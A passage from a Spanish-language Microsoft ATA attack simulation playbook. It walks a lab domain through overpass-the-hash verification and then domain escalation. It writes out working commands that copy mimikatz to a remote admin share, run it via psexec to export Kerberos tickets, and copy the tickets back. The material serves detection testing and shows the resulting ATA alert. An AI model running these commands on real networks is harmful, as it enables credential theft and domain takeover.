     dir \\admin-pc\c$
   
En la siguiente imagen se muestra un ejemplo del resultado de este comando:

![dir](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig22.png)

El resultado de este comando demuestra que en este momento tiene acceso a la unidad C de *Admin-PC*. Ahora, validaremos que el nuevo símbolo del sistema que hemos abierto insertó el vale de *RonHD* y no que simplemente configuramos erróneamente a *JeffV* para tener derechos de lectura.

Después, inspeccionaremos los vales en el símbolo del sistema de overpass-the-hash. Ejecute el siguiente comando en el nuevo símbolo del sistema que se abrió a raíz del ataque overpass-the-hash:

    klist

En la siguiente imagen se muestra un ejemplo del resultado de este comando:

![klist](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig23.png)

Como se puede ver, en este momento estamos suplantando la identidad de *RonHD* en este símbolo del sistema, que confirma que usamos sus credenciales legítimas para tener acceso a su propio *Admin-PC*.

Habrá observado que Microsoft ATA generó una alerta de implementación de protocolo no habitual, como se refleja aquí. Esto sucede porque overpass-the-hash usa NTLM y, por lo tanto, RC4. Desde la posición del defensor de la red, aprenderá que en *Victim-PC* la cuenta de RonHD se autenticó correctamente en el controlador de dominio.  A partir de aquí, podría comenzar nuestra investigación.

![Protocolo no habitual](./media/ata-attack-simulation-playbook/ata-attack-simulation-playbook-fig24.png) 

<a id="domain-escalation" class="xliff"></a>
### Escalación de dominio

Ahora el atacante tiene acceso a *Admin-PC*, un equipo que se identificó (a través de una actividad de reconocimiento anterior) como un buen vector de ataque para poner en peligro la cuenta con privilegios elevados *NuckC*. Ahora, el atacante quiere desplazarse a *Admin-PC*, escalando los privilegios en el dominio.

Para ello, el atacante recopilará las credenciales por medio de un ataque [pass-the-hash](https://www.microsoft.com/security/sir/strategy/default.aspx#!pass_the_hash_defenses), que nos permitirá ir a *Admin-PC*.   

Desde un nuevo símbolo del sistema, ejecutado en el contexto de *RonHD*, vaya a la parte del sistema de archivos donde esté mimikatz en esa biblioteca y ejecute el siguiente comando:

    xcopy mimikatz \\admin-pc\c$\temp

Después, ejecute mimiKatz de forma remota y use el siguiente comando para exportar todos los vales Kerberos desde *Admin-PC*:

    psexec.exe \\admin-pc -accepteula cmd /c (cd c:\temp ^& mimikatz.exe “privilege::debug” “sekurlsa::tickets /export” ^& “exit”)

Vuelva a copiar estos vales en *Victim-PC* utilizando el siguiente comando:

    xcopy \\admin-pc\c$\temp c:\temp\tickets

En la siguiente imagen se muestra un ejemplo del resultado de este comando:
